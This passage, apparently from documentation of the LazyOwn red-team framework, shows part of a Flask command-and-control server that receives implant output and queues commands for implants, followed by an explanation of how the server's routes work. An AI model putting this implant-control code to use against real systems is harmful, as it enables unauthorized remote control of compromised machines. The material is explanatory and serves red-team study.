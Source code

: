 ```python
                 str(output)[:1000],
            ]
            writer.writerow(safe_data)

        # Store the latest result in the 'results' dict (used by web interface)
        results[sanitized_client_id] = data

        print(f"[C2] Received result from {sanitized_client_id}. Output: {output[:100]}...") # Log snippet of output
        connected_clients.add(sanitized_client_id) # Ensure client is marked as connected
        return jsonify({"status": "success", "Platform": implant_os}), 200 # Acknowledge receipt

    except json.JSONDecodeError:
        print(f"[C2 ERROR] Invalid JSON received from {client_id}")
        return jsonify({"status": "error", "message": "Invalid JSON"}), 400
    except Exception as e:
        print(f"[C2 ERROR] Unexpected error processing result from {client_id}: {e}")
        return jsonify({"status": "error", "message": "Internal server error"}), 500

# --- Simplified command to issue commands from CLI (conceptual, lazyown.py talks to lazyc2.py) ---
# In lazyown.py (or a module), there would be a command handler like do_issue_command_to_c2:
# class LazyOwnShell(cmd2.Cmd):
#    def do_issue_command_to_c2(self, args):
#        """Issue a command to a connected implant."""
#        parts = args.split(maxsplit=1)
#        if len(parts) != 2:
#            self.poutput("Usage: issue_command_to_c2 <client_id> <command>")
#            return
#        client_id = parts[0]
#        command_to_send = parts[1]
#
#        # This is simplified. In reality, this command likely adds the command
#        # to a shared queue that the lazyc2.py Flask app reads from,
#        # or uses an internal mechanism to update the 'commands' dict used by the Flask app.
#        # A direct HTTP request from CLI to Flask on localhost is also possible but less common.
#        commands[client_id] = command_to_send # Add command to the queue for this client
#        self.poutput(f"Command '{command_to_send}' queued for client {client_id}")
# --- End Simplified Conceptual Command ---
```
*Explanation:* The C2 server code defines Flask routes that match the URL structure the implant uses (`/<maleable route>/<client_id>`). The `GET` handler checks the `commands` dictionary for any commands queued for that `client_id`, encrypts one if found, and returns it. The `POST` handler receives encrypted data, decrypts it, parses the JSON containing the command output and implant details, saves it to a client-specific log file in the `sessions/` directory, and updates the `results` dictionary which is used by the web interface (`/`) to display the latest implant data. The conceptual CLI command `issue_command_to_c2` demonstrates how a user interaction queues a command for an implant by adding it to the `commands` dictionary.

## Configuring the C2

